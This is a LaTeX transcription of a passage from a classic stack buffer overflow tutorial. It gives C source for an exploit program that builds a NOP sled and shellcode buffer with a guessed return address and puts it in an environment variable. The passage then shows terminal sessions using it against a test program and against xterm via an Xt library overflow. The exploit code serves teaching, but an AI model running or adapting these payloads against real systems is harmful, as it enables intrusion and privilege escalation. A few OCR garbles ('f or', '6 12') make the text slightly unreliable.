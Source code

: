\documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
\begin{lstlisting}[caption=exploit3.c]
void main(int argc, char *argv[]) 
{
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);

  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;

  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  for (i = 0; i < bsize/2; i++)
    buff[i] = NOP;

  ptr = buff + ((bsize/2) - (strlen(shellcode)/2));

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}

A good selection f or our buffer size is about 100 bytes more than the size of the buffer we are trying to 
overflow. This will place our code at the end of the buffer we are trying to overflow, giving a lot of space for the 
NOPs, but still overwriting the return address with the address we guessed. The buffer we are trying to overflow 
is 512 bytes long, so we'll use 6 12. Let's try to overflow our test program with our new exploit: 

\begin{verbatim}
[aleph1]$ ./exploit3 612
Using address: 0xbffffdb4[aleph1]$ ./vulnerable $EGG
$
\end{verbatim}

Whoa! First try! This change has improved our chances a hundredfold. Let's try it now on a real case of a buffer 
overflow. We'll use for our demonstration the buffer overflow on the Xt library. For our example, we'll use 
xterm (all programs linked with the Xt library are vulnerable).  You must be running an X server and allow 
connections to it from the localhost. Set your DISPLAY variable accordingly. 

\begin{verbatim}
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit3 1124
Using address: 0xbffffdb4

[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
^C
[aleph1]$ exit
[aleph1]$ ./exploit3 2148 100
Using address: 0xbffffd48


\end{verbatim}
\end{CJK}
\end{document}
